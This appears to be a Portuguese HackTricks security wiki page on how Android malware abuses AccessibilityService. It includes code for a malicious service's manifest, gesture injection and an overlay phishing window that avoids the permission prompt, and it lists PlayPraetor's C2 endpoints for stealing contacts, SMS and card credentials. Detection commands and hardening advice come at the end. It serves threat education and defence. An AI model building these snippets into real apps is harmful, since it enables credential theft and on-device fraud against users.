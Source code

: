 # Abuso do Serviço de Acessibilidade do Android

{{#include ../../banners/hacktricks-training.md}}

## Visão Geral

`AccessibilityService` foi criado para ajudar usuários com deficiência a interagir com dispositivos Android. Infelizmente, as mesmas **APIs de automação poderosas** (navegação global, entrada de texto, despacho de gestos, janelas sobrepostas…) podem ser armadas por malware para obter **controle remoto completo** do dispositivo _sem privilégios de root_.

Trojans bancários modernos do Android e Trojans de Acesso Remoto (RATs) como **PlayPraetor, SpyNote, BrasDex, SOVA, ToxicPanda** e muitos outros seguem a mesma receita:

1. Enganar a vítima para habilitar um serviço de acessibilidade malicioso (a permissão *BIND_ACCESSIBILITY_SERVICE* é considerada "de alto risco" e requer uma ação explícita do usuário).
2. Aproveitar o serviço para
* capturar todos os eventos de UI e texto que aparecem na tela,
* injetar gestos sintéticos (`dispatchGesture`) e ações globais (`performGlobalAction`) para automatizar qualquer tarefa que o operador desejar,
* desenhar sobreposições em tela cheia sobre aplicativos legítimos usando o tipo de janela **TYPE_ACCESSIBILITY_OVERLAY** (sem prompt de `SYSTEM_ALERT_WINDOW`!),
* conceder silenciosamente permissões adicionais em tempo de execução clicando nas caixas de diálogo do sistema em nome da vítima.
3. Exfiltrar dados ou realizar **Fraude no Dispositivo (ODF)** em tempo real enquanto o usuário está olhando para uma tela perfeitamente normal.

---

## Solicitando a permissão
```xml
<!-- AndroidManifest.xml -->
<service
android:name="com.evil.rat.EvilService"
android:permission="android.permission.BIND_ACCESSIBILITY_SERVICE"
android:exported="false">

<intent-filter>
<action android:name="android.accessibilityservice.AccessibilityService" />
</intent-filter>

<meta-data android:name="android.accessibilityservice"
android:resource="@xml/evil_accessibility_config"/>
</service>
```
O XML acompanhante define como o diálogo falso será exibido:
```xml
<?xml version="1.0" encoding="utf-8"?>
<accessibility-service xmlns:android="http://schemas.android.com/apk/res/android"
android:description="@string/service_description"
android:accessibilityEventTypes="typeAllMask"
android:accessibilityFeedbackType="feedbackGeneric"
android:notificationTimeout="200"
android:canPerformGestures="true"
android:canRetrieveWindowContent="true"/>
```
---

## Primitivas de automação de UI remota
```java
public class EvilService extends AccessibilityService {
@Override
public void onAccessibilityEvent(AccessibilityEvent event) {
// harvest text or detect foreground app change
}

// Simulate HOME / BACK / RECENTS …
private void navHome()     { performGlobalAction(GLOBAL_ACTION_HOME); }
private void navBack()     { performGlobalAction(GLOBAL_ACTION_BACK); }
private void openRecents() { performGlobalAction(GLOBAL_ACTION_RECENTS); }

// Generic tap / swipe
public void tap(float x, float y) {
Path p = new Path(); p.moveTo(x, y);
GestureDescription.StrokeDescription s = new GestureDescription.StrokeDescription(p, 0, 50);
dispatchGesture(new GestureDescription.Builder().addStroke(s).build(), null, null);
}
}
```
Com apenas essas duas APIs, um atacante pode:
* Desbloquear a tela, abrir o aplicativo bancário, navegar na árvore da interface do usuário e enviar um formulário de transferência.
* Aceitar todos os diálogos de permissão que aparecem.
* Instalar/atualizar APKs extras via a intenção da Play Store.

---

## Padrões de abuso

### 1. Phishing por sobreposição (Coleta de credenciais)
Um `WebView` transparente ou opaco é adicionado ao gerenciador de janelas:
```java
WindowManager.LayoutParams lp = new WindowManager.LayoutParams(
MATCH_PARENT, MATCH_PARENT,
TYPE_ACCESSIBILITY_OVERLAY,                      // ⬅ bypasses SYSTEM_ALERT_WINDOW
FLAG_NOT_FOCUSABLE | FLAG_NOT_TOUCH_MODAL,       // touches still reach the real app
PixelFormat.TRANSLUCENT);
wm.addView(phishingView, lp);
```
A vítima digita credenciais no formulário falso enquanto o aplicativo em segundo plano recebe os mesmos gestos – nenhum prompt suspeito de "desenhar sobre outros aplicativos" é exibido.

> Exemplo detalhado: a seção *Phishing de Sobreposição de Acessibilidade* na página de Tapjacking.

### 2. Automação de Fraude no Dispositivo
Famílias de malware como **PlayPraetor** mantêm um canal WebSocket persistente onde o operador pode emitir comandos de alto nível (`init`, `update`, `alert_arr`, `report_list`, …). O serviço traduz esses comandos em gestos de baixo nível, alcançando transações não autorizadas em tempo real que facilmente contornam a autenticação multifatorial vinculada a esse dispositivo.

### 3. Streaming e Monitoramento de Tela
Ao combinar a **MediaProjection API** com uma biblioteca cliente RTMP, o RAT pode transmitir o framebuffer ao vivo para `rtmp://<c2>:1935/live/<device_id>`, dando ao adversário perfeita consciência situacional enquanto o mecanismo de Acessibilidade controla a interface.

---

## PlayPraetor – fluxo de comando e controle

1. **Heartbeat HTTP(S)** – iterar sobre uma lista codificada até que um domínio responda `POST /app/searchPackageName` com o C2 ativo.
2. **WebSocket (porta 8282)** – comandos JSON bidirecionais:
* `update` – enviar novas conf/APKs
* `alert_arr` – configurar modelos de sobreposição
* `report_list` – enviar lista de nomes de pacotes alvo
* `heartbeat_web` – manter ativo
3. **RTMP (porta 1935)** – streaming de tela/vídeo ao vivo.
4. **Exfiltração REST** –
* `/app/saveDevice` (impressão digital)
* `/app/saveContacts` | `/app/saveSms` | `/app/uploadImageBase64`
* `/app/saveCardPwd` (credenciais bancárias)

O **AccessibilityService** é o mecanismo local que transforma esses comandos em nuvem em interações físicas.

---

## Detectando serviços de acessibilidade maliciosos

* `adb shell settings get secure enabled_accessibility_services`
* Configurações → Acessibilidade → *Serviços baixados* – procure por aplicativos que **não** são do Google Play.
* Soluções MDM / EMM podem impor `ACCESSIBILITY_ENFORCEMENT_DEFAULT_DENY` (Android 13+) para bloquear serviços instalados manualmente.
* Analise os serviços em execução:
```bash
adb shell dumpsys accessibility | grep "Accessibility Service"
```

---

## Recomendações de fortalecimento para desenvolvedores de aplicativos

* Marque visualizações sensíveis com `android:accessibilityDataSensitive="accessibilityDataPrivateYes"` (API 34+).
* Combine `setFilterTouchesWhenObscured(true)` com `FLAG_SECURE` para evitar sequestro de toque/sobreposição.
* Detecte sobreposições verificando `WindowManager.getDefaultDisplay().getFlags()` ou a API `ViewRootImpl`.
* Recuse operar quando `Settings.canDrawOverlays()` **ou** um serviço de Acessibilidade não confiável estiver ativo.

---

## Referências
* [A ameaça em evolução do PlayPraetor: Como atores de língua chinesa escalam globalmente um RAT Android](https://www.cleafy.com/cleafy-labs/playpraetors-evolving-threat-how-chinese-speaking-actors-globally-scale-an-android-rat)
* [Documentação de acessibilidade do Android – Automatizando a interação da UI](https://developer.android.com/guide/topics/ui/accessibility/service)

{{#include ../../banners/hacktricks-training.md}}
